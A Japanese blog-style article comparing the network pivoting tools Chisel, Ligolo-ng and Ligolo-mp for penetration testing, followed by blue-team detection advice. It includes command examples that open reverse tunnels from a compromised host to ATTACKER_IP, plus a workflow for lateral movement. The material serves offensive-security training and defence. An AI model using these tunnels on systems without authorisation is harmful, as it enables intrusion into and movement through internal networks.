

## TL;DR

- **まず 1 本の安定トンネルがほしい**なら `Chisel`
- **内部網を広く・速く・自然に扱いたい**なら `Ligolo-ng`
- **複数エージェントをまとめて経路管理したい**なら `Ligolo-mp`

2026年時点の実務では、**初期足場 = Chisel、横展開 = Ligolo-ng、大規模運用 = Ligolo-mp** という使い分けが最も再現性が高いです。

---

## この記事でいう「最新情報」

本記事の「最新」は、**2026年時点で広く使われている運用パターン**（攻撃・防御の双方）を指します。特定バージョン番号は変動が速いため、実行前に各プロジェクトのリリースノート確認を前提にしています。

---

## 3ツールの役割の違い

| ツール | 主目的 | 通信モデル | 典型ユースケース |
|---|---|---|---|
| Chisel | ポートフォワード / SOCKS | HTTP(S) over WebSocket | 最初の踏み台確保、単発転送 |
| Ligolo-ng | L3/L4 寄りの透過ピボット | TUN ベースのトンネル | Nmap/SMB/RDP/WinRM を自然に流す |
| Ligolo-mp | Ligolo-ng の多段・多拠点運用補助 | マルチエージェント経路管理 | 複数セグメント同時攻略 |

---

## Chisel — 軽量で「まず通す」ための道具

### 強み

- 単一バイナリで導入が簡単
- `R:socks` で即 SOCKS 化できる
- HTTP/HTTPS に偽装しやすく、初期通信路を作りやすい

### 弱み

- 大規模・多段化で経路管理が煩雑
- プロキシチェーンが増えるほど遅延と障害点が増える

### 最小構成例

```bash
# 攻撃側
chisel server -p 9001 --reverse

# 侵害ホスト側
./chisel client ATTACKER_IP:9001 R:socks
```

`proxychains` や Burp の upstream SOCKS へ接続して内部リーチを伸ばすのが定番です。

---

## Ligolo-ng — 内部ネットワークを「ローカルっぽく」扱う

### 強み

- TUN インターフェース経由で、アプリごとの SOCKS 設定が不要
- スキャンや列挙の操作感が自然（ルーティングで吸収）
- 複数サブネットへ展開しやすい

### 弱み

- 初期セットアップ（TUN・ルート追加）に慣れが必要
- ネットワーク設計を誤ると経路競合しやすい

### 最小構成イメージ

```bash
# 攻撃側（proxy）
./proxy -selfcert

# 侵害ホスト（agent）
./agent -connect ATTACKER_IP:11601 -ignore-cert
```

接続後、攻撃側で TUN 作成・`route add` を行い、内部セグメントを Ligolo 側へ向けます。

---

## Ligolo-mp — 複数ピボット運用の整理役

`Ligolo-mp` は、Ligolo-ng を単発接続で終わらせず、**多段ピボット・複数エージェント・経路の切り替え**を管理しやすくする運用レイヤです。

### 向いている状況

- 拠点 A/B/C へ同時にエージェントが生えた
- セグメントごとに到達性が異なり、ルート切替が頻発する
- オペレータが複数名で、状態共有が必要

### 注意点

- 便利さの代償として構成要素が増える
- ログ・経路・権限の設計を先に決めないと逆に混乱する

---

## Mermaid 解説シーケンス（初期侵入 → 多段ピボット）



---

## 使い分けの実務判断フロー

1. **最初の 1 本が不安定** → Chisel でまず疎通を作る
2. **内部探索が本格化** → Ligolo-ng に寄せる
3. **複数経路を同時運用** → Ligolo-mp を導入

「最初から全部 Ligolo」に固執するより、**段階移行**のほうが失敗が少ないです。

---

## 検知・防御（ブルーチーム視点）

### ネットワーク

- 長時間持続する外向き TLS/HTTP セッションの監視
- 通常業務にない宛先への周期的ビーコン検知
- 端末が急に「ルータ的」ふるまいを始める挙動（内部向け到達の増加）

### ホスト

- 不審バイナリ実行（`chisel` / `agent` / rename された同等バイナリ）
- 新規サービス化・タスク登録・自動起動化
- TUN/TAP 作成、ルート追加、FW 例外追加

### 運用対策

- EDR でトンネル系ツールの振る舞い検知ルールを整備
- プロキシ許可先の最小化（egress 制御）
- セグメント間 ACL を厳格化し、踏み台化を困難にする

---

## まとめ

- `Chisel` は **初動の突破力** が高い
- `Ligolo-ng` は **内部運用の生産性** が高い
- `Ligolo-mp` は **複雑環境の継続運用** に強い

実戦ではツールの優劣より、**フェーズに応じた切替設計**が成果を分けます。

---

## 参考

- Chisel（公式リポジトリ）
- Ligolo-ng（公式リポジトリ）
- Ligolo-mp（利用時は導入元・メンテ状況を要確認）
